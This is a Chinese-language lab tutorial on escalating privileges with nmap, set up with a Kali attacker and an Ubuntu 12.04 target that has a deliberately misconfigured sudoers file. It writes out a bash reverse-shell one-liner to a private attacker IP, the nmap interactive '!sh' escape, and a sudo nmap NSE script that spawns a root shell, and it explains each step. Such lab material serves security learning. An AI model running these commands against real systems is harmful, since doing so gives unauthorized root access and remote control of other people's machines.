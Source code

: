 ### NMap 指令提权

环境准备：一台 KaliLinux（攻击者）和一台 Ubuntu 12.04.5（靶标）

![](https://pic1.imgdb.cn/item/68bf548958cb8da5c88af39e.png)

![](https://pic1.imgdb.cn/item/68bf54b358cb8da5c88af3bc.png)

在靶标上手动创建反弹 Shell 模拟已进入内网情况

```sh
bash -i >& /dev/tcp/192.168.41.151/6767 0>&1
```

![](https://pic1.imgdb.cn/item/68bf558958cb8da5c88af412.png)

修改 `/etc/sudoer` 文件模拟配置错误情况

![](https://pic1.imgdb.cn/item/68d349ffc5157e1a882c164e.png)

在早期 nmap 版本中，带有交互模式,因而允许用户执行 Shell 命令 使用如下命令进入 nmap 交互模式

```sh
nmap --interactive
```

在 nmap 交互模式中 通过如下命令提权

```sh
nmap> !sh
sh-3.2# whoami
root
```

没有交互的最新方式

```sh
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

**1. `echo "os.execute('/bin/sh')" > /tmp/shell.nse`**

- `echo "os.execute('/bin/sh')"`：`echo` 命令在这里的作用是将一个字符串输出到标准输出。这个字符串是 `"os.execute('/bin/sh')"`
- `os.execute('/bin/sh')`：这是 Lua 脚本中的一个函数调用。`os.execute()` 函数用于执行一个操作系统命令。在这里，它执行的命令是 `/bin/sh`，也就是启动一个 shell
- `> /tmp/shell.nse`：这是一个重定向操作符，它将 `echo` 命令的输出内容（即 `"os.execute('/bin/sh')"` 字符串）写入到 `/tmp/shell.nse` 文件中

**2. `sudo nmap --script=/tmp/shell.nse`**

- **`sudo`**：这是最关键的部分。`sudo`（Superuser Do）命令允许普通用户以 **root** 用户的权限来执行指定的命令
- **`nmap`**：网络扫描工具。通常情况下，`nmap` 是一个功能强大的端口扫描器，但它也内置了一个脚本引擎（`NSE`, Nmap Scripting Engine）。这个引擎允许用户使用 Lua 脚本来扩展 `nmap` 的功能
- **`--script=/tmp/shell.nse`**：这个参数告诉 `nmap` 去加载并运行指定的 Lua 脚本。在这里，它加载的就是我们刚刚创建的 `/tmp/shell.nse` 文件

![](https://pic1.imgdb.cn/item/68d34e3dc5157e1a882c1863.png)
